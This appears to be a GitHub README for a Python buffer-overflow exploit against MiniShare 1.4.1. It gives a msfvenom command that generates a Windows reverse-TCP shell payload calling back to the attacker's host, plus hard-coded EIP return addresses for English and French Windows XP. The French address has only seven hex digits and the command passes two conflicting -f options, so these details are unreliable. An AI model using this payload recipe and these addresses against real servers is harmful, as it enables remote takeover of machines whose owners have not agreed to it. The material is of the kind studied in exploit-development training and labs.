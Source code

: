 # minishare_1_4_1_bof

This is a python based buffer overflow exploit for Minishare 1.4.1

Incredibly simple, address and port need to be put in manually, and a msfvenom needs be generated with your IP addess.

msfvenom -p windows/shell_reverse_tcp LHOST=<local ip> LPORT=<local port> -f python -a x86 --platform windows -b '\x00\x0d' -f c

Included are the EIP's for a couple Windows XP versions. Both should work, but if they don't you'll have to find new ones in a debugger.

Windows XP-English: 7C9D30D7

Windows XP-French: 7C9E320

I plan on making a more robust automated version in the future.
